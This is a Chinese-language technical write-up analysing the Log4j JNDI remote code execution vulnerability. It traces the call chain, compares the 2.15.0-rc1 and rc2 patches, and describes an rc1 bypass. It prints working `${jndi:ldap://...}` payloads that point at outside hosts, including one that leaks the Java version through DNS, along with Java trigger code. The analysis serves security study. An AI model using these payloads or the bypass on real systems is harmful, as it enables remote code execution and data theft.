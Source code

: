 log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://49.232.128.44:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法

![image-20211211143838953](https://gitee.com/w4nder/imgs/raw/master/image-20211211143838953.png)

format方法中会调用this.converter的format方法

![image-20211211151305638](https://gitee.com/w4nder/imgs/raw/master/image-20211211151305638.png)

formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的

![image-20211211150649037](https://gitee.com/w4nder/imgs/raw/master/image-20211211150649037.png)

MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)

![image-20211211152137585](https://gitee.com/w4nder/imgs/raw/master/image-20211211152137585.png)

经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi

![image-20211211153508179](https://gitee.com/w4nder/imgs/raw/master/image-20211211153508179.png)

先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法

![image-20211211153540919](https://gitee.com/w4nder/imgs/raw/master/image-20211211153540919.png)

最终在JndiManager#lookup中完成jndi注入

![image-20211211153932982](https://gitee.com/w4nder/imgs/raw/master/image-20211211153932982.png)

## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter

![image-20211211154508254](https://gitee.com/w4nder/imgs/raw/master/image-20211211154508254.png)

看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了

![image-20211211154625352](https://gitee.com/w4nder/imgs/raw/master/image-20211211154625352.png)

而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了

![image-20211211154815673](https://gitee.com/w4nder/imgs/raw/master/image-20211211154815673.png)

除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了

![image-20211211155829341](https://gitee.com/w4nder/imgs/raw/master/image-20211211155829341.png)

但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理

![image-20211211160025091](https://gitee.com/w4nder/imgs/raw/master/image-20211211160025091.png)

还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过

![image-20211211160228781](https://gitee.com/w4nder/imgs/raw/master/image-20211211160228781.png)

所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget

![image-20211211160626836](https://gitee.com/w4nder/imgs/raw/master/image-20211211160626836.png)

## 其他

今天看到其他师傅发的利用，意识到能用lookup信息泄露，比如

`${jndi:ldap://${sys:java.version}.7i3934.dnslog.cn:1099/}`

![image-20211212215217436](https://gitee.com/w4nder/imgs/raw/master/image-20211212215217436.png)

还是这几个lookup实现

![image-20211212215658902](https://gitee.com/w4nder/imgs/raw/master/image-20211212215658902.png)

比如sys

SystemPropertiesLookup#lookup，就能从System.getProperties()中取值

![image-20211212215815630](https://gitee.com/w4nder/imgs/raw/master/image-20211212215815630.png)

EnvironmentLookup#lookup是从System.getenv()取值

![image-20211212220007210](https://gitee.com/w4nder/imgs/raw/master/image-20211212220007210.png)

JavaLookup#lookup局限这几个

![image-20211212220152052](log4j_RCE.assets/image-20211212220152052.png)

浅蓝师傅还发现了如果使用了ResourceBundleLookup#lookup，可以读取properties配置文件

![image-20211212222047702](https://gitee.com/w4nder/imgs/raw/master/image-20211212222047702.png)

但是strLookupMap中没有bundle这个key，应该不能直接触发，除非开发人员直接使用并且参数可控

`ResourceBundle.getBundle(bundleName).getString(bundleKey)`

参考：

https://xz.aliyun.com/t/10649

https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2

https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
